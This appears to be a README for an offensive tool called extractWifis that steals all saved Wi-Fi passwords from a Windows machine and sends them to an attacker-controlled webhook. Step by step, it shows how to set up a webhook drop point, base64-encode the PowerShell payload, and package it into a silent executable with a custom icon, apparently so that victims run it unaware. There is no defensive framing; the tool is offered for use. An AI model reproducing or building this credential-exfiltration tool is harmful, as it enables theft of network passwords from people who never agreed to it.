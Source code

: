 # extractWifis

Exfiltrate all saved Wi-Fi passwords from Windows

## Requirements

1. On your Windows machine install Python https://www.python.org/downloads/
 
2. Install pyinstaller `C:\> pip install pyinstaller`

3. Create a webhook url
- https://requestinspector.com
- https://beeceptor.com
- https://webhook.site


## Instructions

1. Open  `getwifis.ps1` and replace `WEBHOOK_URL_HERE` with your webhook url.

2. Encode Powershell (Linux command):
```bash
iconv -f ASCII -t UTF-16LE getwifis.ps1 | base64 -w0
```

3. Open `script.py` and replace `B64_HERE` with your base64 code.

4. Create executable
```cmd
c:\> pyinstaller --onefile --noconsole --icon=icon.ico script.py
```

Executable will be on `dist` folder
